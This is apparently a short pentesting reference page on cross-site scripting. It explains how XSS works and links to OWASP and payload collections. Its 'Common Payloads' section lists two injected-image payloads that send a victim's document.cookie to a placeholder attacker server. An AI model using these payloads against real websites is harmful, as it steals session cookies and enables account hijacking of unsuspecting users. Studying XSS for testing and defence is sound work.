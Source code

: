# XSS - Cross Site Scripting

## Overview

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page

## Description

Cross-Site Scripting (XSS) attacks occur when:

Data enters a Web application through an untrusted source, most frequently a web request.
The data is included in dynamic content that is sent to a web user without being validated for malicious content.

## Common Payloads

	<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
	<img src=x onerror=fetch("http://<YOUR_SERVER_IP>/"+document.cookie)>


## Relevant Information

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

https://owasp.org/www-community/attacks/xss/

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting